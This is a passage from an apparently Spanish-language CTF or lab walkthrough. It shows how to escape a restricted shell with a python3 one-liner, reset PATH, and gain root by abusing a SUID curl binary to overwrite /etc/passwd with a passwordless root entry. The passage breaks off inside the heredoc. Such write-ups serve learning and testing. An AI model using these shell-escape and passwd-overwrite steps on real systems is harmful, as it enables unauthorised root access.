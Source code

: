 Sabiendo que tenemos python3, es muy sencillo escapar, solamente tenemos que ejecutar esto:

```python
python3 -c 'import os; os.system("/bin/bash")'
```

una vez ejecutado ya estaremos en bash, pero nuestro path sigue siendo el mismo, por lo que ahora ejecutamos esto:

```css
export PATH=/bin/
```

Ahora ya podemos hacer todo normal.

#### Escalada a root

si vemos los binarios SUID veremos lo siguiente:

![suid](./images/chmod-4755/img/SUID.png)

como vemos está curl, y hay una manera fácil de escalar escribiendo archivos del sistema:

```css
LFILE=file_to_write
TF=$(mktemp)
echo DATA >$TF
curl "file://$TF" -o "$LFILE"
```

en este caso escribiremos el `/etc/passwd`, para hacerlo ejecutaremos los comandos anteriores de esta manera:

```css
LFILE=/etc/passwd
TF=$(mktemp)
  cat <<EOF > $TF
  root::0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
  _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```